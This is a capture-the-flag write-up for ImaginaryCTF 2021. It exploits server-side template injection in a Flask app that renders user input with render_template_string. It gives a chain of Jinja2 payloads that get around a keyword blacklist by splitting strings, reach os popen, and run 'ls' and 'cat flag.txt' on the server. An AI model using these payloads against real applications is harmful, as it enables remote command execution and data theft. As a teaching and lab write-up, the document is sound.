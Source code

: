 # ImaginaryCTF 2021
After reviewing the python file, we can figure out the application is using function "render_template_string" which is vulnerable to SSTI. This function takes user input without any sanitizing.
```@app.route('/site')
def site():
  content = b64decode(request.args['content']).decode()
  #prevent xss
  blacklist = ['script', 'iframe', 'cookie', 'document', "las", "bas", "bal", ":roocursion:"] # no roocursion allowed
  for word in blacklist:
    if word in content:
      # this should scare them away
      content = "*** stack smashing detected ***: python3 terminated"
  csp = '''<head>\n<meta http-equiv="Content-Security-Policy" content="default-src 'none'">\n</head>\n'''
  return render_template_string(csp + content)
  ```
  **render_template_string(csp + content)**
  
  So the next step we need to call the necessary functions from dictionary-like object. The first step is to trigger one Object. Notice the 'las' and 'bas', 'bal' are blacklisted, so we need to bypass the control through concatenating the strings. Here is the payload I used.

**{{request["__cl"+"ass__"]["__mro__"]}}**

![avatar](https://github.com/piggyctf/writeups/blob/main/Imaginary-ctf-2021/imgs/1.jpg)
The request here is a variable created before. We can also use other objects like [] '' or {}... The main point here is to get Object Class from Python.

Then we choose the index 3 in the tuple and we get an Object class:

**{{request["__cl"+"ass__"]["__mro__"][3]}}**

![avatar](https://github.com/piggyctf/writeups/blob/main/Imaginary-ctf-2021/imgs/2.jpg)

The next steps are about to see all used classes, we can achive that through calling 'subclasses'.

**{{request["__cl"+"ass__"]["__mro__"][3]["__subcl"+"asses__"]()}}**

![avatar](https://github.com/piggyctf/writeups/blob/main/Imaginary-ctf-2021/imgs/3.jpg)

Notice we got quite a lot of classes. We need to choose the exploitable ones. For instance os._wrap_close. We can also use other classes and the resources are easy to find on Internet :) The class here can be called via : "os._wrap_close.__init__.__globals__['popen']('INPUT YOUR LINUX COMMAND HERE').read()" Then we have the payload as following:

**{{request["__cl"+"ass__"]["__mro__"][3]["__subcl"+"asses__"]()[132]['__init__']['__glob'+'als__']['popen']('ls').read()}}**

Upon executing the ls command, we can see the files in current path:

![avatar](https://github.com/piggyctf/writeups/blob/main/Imaginary-ctf-2021/imgs/4.jpg)

And we are able to see the content of the 'flag.txt' through command cat. Here is the final payload we used:

**{{request["__cl"+"ass__"]["__mro__"][3]["__subcl"+"asses__"]()[132]['__init__']['__glob'+'als__']['popen']('cat flag.txt').read()}}**

![avatar](https://github.com/piggyctf/writeups/blob/main/Imaginary-ctf-2021/imgs/5.jpg)
And BINGO, we got the flag:

**ictf{:rooYay:_:rooPOG:_:rooHappy:_:rooooooooooooooooooooooooooo:}**
